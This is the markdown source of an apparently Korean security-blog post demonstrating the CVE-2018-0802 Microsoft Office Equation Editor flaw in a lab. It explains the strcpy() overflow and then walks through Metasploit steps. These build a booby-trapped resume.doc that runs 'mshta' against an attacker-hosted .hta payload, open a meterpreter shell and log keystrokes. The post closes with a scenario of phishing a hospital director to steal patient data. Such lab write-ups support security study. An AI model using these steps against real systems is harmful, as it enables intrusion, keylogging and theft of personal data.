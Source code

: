```yaml
---
layout: post
title: CVE-2018-0802 MS Office 취약점 실습 (Metasploit)
categories: PoC
tags: [CVE, Metasploit]
---
```

# 목차
&nbsp;&nbsp;<a href="#{{ 1| downcase }}">1. Disclaimer</a>
&nbsp;&nbsp;<a href="#{{ 2| downcase }}">2. CVE-2018-0802 취약점 발생 원인 요약</a>
&nbsp;&nbsp;<a href="#{{ 3| downcase }}">3. PoC</a>
&nbsp;&nbsp;<a href="#{{ 4| downcase }}">4. 공격 코드 설명</a>
&nbsp;&nbsp;<a href="#{{ 5| downcase }}">5. References</a>
- - -
  
<h1 id="{{ 1| downcase }}">1. Disclaimer</h1>
<font color='red'>
All the content shown in this post is only for educational purposes. Any misuse of this content is completely at your own risk.<br>
Do not try to attempt to break laws or do any illegal stuff by using this.<br><br>

이 포스트에서 보여지는 모든 컨텐츠는 교육적인 목적으로만 제작되었습니다. 해당 컨텐츠를 오용한 결과는 전적으로 오용한 본인 책임입니다.<br>
이 포스트에서 다루는 내용을 이용해 불법적인 일을 저지르려고 하지 마십시오.
</font>
- - -
<h1 id="{{ 2| downcase }}">2. CVE-2018-0802 취약점 발생 원인 요약</h1>
Microsoft Office의 2007, 2010, 2013, 2016 버전에서 발생되는 CVE-2018-0802 취약점은 Office 문서에 수식을 삽입하고 편집할 때 사용하는 컴포넌트인 EQNEDT32.exe에서 발생합니다.

EQNEDT32.exe에서 폰트 레코드명을 처리하는 과정에서 원본과 대상 버퍼의 크기를 체크하지 않는, 공격에 취약한 함수인 strcpy()가 사용되었습니다.

* SUB_41160F() 내부의 strcpy() – CVE-2017-11882 취약점 관련
* SUB_421774() 내부의 SUB_421E39() 에서의 strcpy() – CVE2018-0802 취약점 관련  

MS의 2017년 11월 패치 이후에는 SUB_41160F()함수의 strcpy() 전후 버퍼 크기를 확인하는 코드가 추가되었지만, SUB_421E39() 함수에 대해서는 조치가 취해지지 않았다고 합니다. 오히려 이 업데이트 이후에 SUB_41160F() 함수를 통과해 SUB_421E39()까지 제어가 넘어올 수 있게 되면서 ‘버퍼 오버플로우(Buffer Overflow)’ 공격이 발생될 수 있는 취약점이 존재합니다.
- - -
<h1 id="{{ 3| downcase }}">3. PoC</h1>
{% include youtube_embed.html id="PDPKtL5SQXM" %}
- - -
<h1 id="{{ 4| downcase }}">4. 공격 코드 설명</h1>
{% highlight text %}
> use exploit/windows/misc/hta_server
{% endhighlight %}
hta_server 모듈은 .hta 파일이 실행되고 파워쉘을 통해 공격자의 페이로드를 실행시켜주는 해당 .hta파일을 제공합니다.

{% highlight text %}
> set srvhost 192.168.55.32
{% endhighlight %}
활성화되어있는 로컬 호스트의 주소를 적여야 합니다. 저는 가상머신의 칼리 리눅스를 사용했으므로 칼리의 ip를 적어주었습니다.

{% highlight text %}
> exploit
{% endhighlight %}
이 모듈을 이용해 익스플로잇을 하면 공격 페이로드가 삽입된 .hta파일이 생성됩니다. http://공격자의_주소/랜덤문자열.hta 위치에서 호스팅됩니다.

{% highlight text %}
python RTF_11882_0802.py -c "mshta http://192.168.55.32:8080/Fkf0e3JN6.hta" -o resume.doc
{% endhighlight %}
MS Office 수식편집기 취약점인 CVE-2017-11882와 CVE-2018-0802의 뒷번호를 딴 RTF_11882_0802.py 파이썬 코드를 이용해 -c 옵션으로 방금 익스플로잇을 수행해서 생성된 .hta파일을 입력하고, 출력되는 Office 파일의 이름을 -o 옵션에 적어줍니다.

{% highlight text %}
> sessions -i 1
{% endhighlight %}
희생자가 .doc를 열면 세션이 활성화되고, 첫번째로 활성화된 세션과 연결을 맺습니다.

{% highlight text %}
meterpreter > sysinfo
{% endhighlight %}
미터프리터 세션을 이용해 희생자의 시스템 정보를 가져옵니다.

{% highlight text %}
meterpreter > shell
{% endhighlight %}
희생자 컴퓨터에서 cmd 명령어를 입력할 수 있습니다.

{% highlight text %}
meterpreter > keyscan_start
{% endhighlight %}
희생자의 키보드 입력을 전달받습니다(키로깅).

{% highlight text %}
meterpreter > keyscan_dump
{% endhighlight %}
keyscan_start 부터 시작한 키로깅을 중단하고 로그 정보를 출력합니다.
- - -
<h1 id="{{ 5| downcase }}">5. 발생 가능한 시나리오</h1>
해커 A씨는 병원장 B씨의 개인정보와 고객 리스트를 해킹하려는 의도를 갖고 있었습니다. 그래서 사전조사를 통해 해커 A씨가 알아낸 것은, B씨가 운영하는 개인병원에서는 병원 내의 망분리도 되있지 않다는 것과 병원 내에는 Wifi 공유기만을 설치해 병원을 운영하고 있다는 것 이었습니다. 또한 A씨는 B씨의 개인병원 홈페이지 메인화면 아래쪽 footer 부분에 그의 이메일이 적혀있는 것을 발견했습니다.


<center><i>B씨의 개인병원 메인 홈페이지 화면</i></center>

<center><i>병원장 B씨 홈페이지 footer 부분에 적혀있는 이메일 주소</i></center>
(시나리오 예제 사이트는 [여기](http://jayboard.cafe24.com/emerald/index.html){:target="_blank"}에서 확인하실 수 있습니다.)

해커 A씨는 그의 스마트폰에 칼리리눅스를 설치하고, 환자인 척 B씨의 병원에 가서 wifi를 연결했습니다. 해커 A씨는 칼리리눅스의 메타스플로잇을 이용해 악성 데이터가 삽입된 .doc 파일을 제작하고, 병원장 B씨 에게 다음과 같은 이력서를 메일로 보냈습니다 :


<center><i>피싱을 위한 이력서 파일</i></center>
이렇게 A씨는 B씨를 피싱하는데 성공한 후, 미터프리터 세션을 이용해 keyscan을 수행하고, 병원장의 개인정보와 병원 고객의 데이터를 빼내는데 성공했다고 합니다.
- - -
  
<h1 id="{{ 6| downcase }}">6. References</h1>
* [CVE-2018-0802 Detail](https://nvd.nist.gov/vuln/detail/CVE-2018-0802){:target="_blank"}
* [17년 만에 드러난 취약점의 연쇄 작용](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=27369){:target="_blank"}
* [&#91;Research & Technique&#93; 마이크로소프트 오피스 원격 코드 실행 취약점](http://blog.skinfosec.com/221203066071){:target="_blank"}